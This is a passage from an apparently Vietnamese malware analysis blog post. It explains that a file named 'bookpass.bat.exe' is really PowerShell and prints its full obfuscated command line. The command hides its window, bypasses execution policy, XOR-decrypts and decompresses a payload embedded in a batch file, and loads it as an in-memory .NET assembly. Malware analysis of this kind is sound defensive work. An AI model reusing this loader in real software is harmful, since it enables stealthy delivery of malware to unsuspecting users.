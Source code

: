 `bookpass.bat.exe` bản chất chính là powershell, thực thi với commandline như sau:

![batcloak-powershell.png](/assets/img/2023/11/batcloak-powershell.png)

``` powershell
"bookpass.bat.exe"  -noprofile -windowstyle hidden -ep bypass -command $_CASH_heAou = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\rto\Desktop\bookpass\rootsystem-main\book_A454-6054639983\bookpass.bat').Split([Environment]::NewLine);foreach ($_CASH_Tnqps in $_CASH_heAou) { if ($_CASH_Tnqps.StartsWith(':: @')) {  $_CASH_zHYrw = $_CASH_Tnqps.Substring(4); break; }; };$_CASH_zHYrw = [System.Text.RegularExpressions.Regex]::Replace($_CASH_zHYrw, '_CASH_', '');$_CASH_BIQWU = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_zHYrw);$_CASH_QwNiu = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('6tqrBmX1zrax2Cb4WHExxqLsc6tXDM9Ti3yfll2WSzw=');for ($i = 0; $i -le $_CASH_BIQWU.Length - 1; $i++) { $_CASH_BIQWU[$i] = ($_CASH_BIQWU[$i] -bxor $_CASH_QwNiu[$i % $_CASH_QwNiu.Length]); };$_CASH_jrqMN = New-Object System.IO.MemoryStream(, $_CASH_BIQWU);$_CASH_eDovn = New-Object System.IO.MemoryStream;$_CASH_gaysI = New-Object System.IO.Compression.GZipStream($_CASH_jrqMN, [IO.Compression.CompressionMode]::Decompress);$_CASH_gaysI.CopyTo($_CASH_eDovn);$_CASH_gaysI.Dispose();$_CASH_jrqMN.Dispose();$_CASH_eDovn.Dispose();$_CASH_BIQWU = $_CASH_eDovn.ToArray();$_CASH_gLEpe = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_BIQWU);$_CASH_PIBwy = $_CASH_gLEpe.EntryPoint;$_CASH_PIBwy.Invoke($null, (, [string[]] ('')))
```

Dựa vào report của TrendMicro, về Powershell Loader của Jlavie

![batcloak-jlavie-raw.png](/assets/img/2023/11/batcloak-jlavie-raw.png)
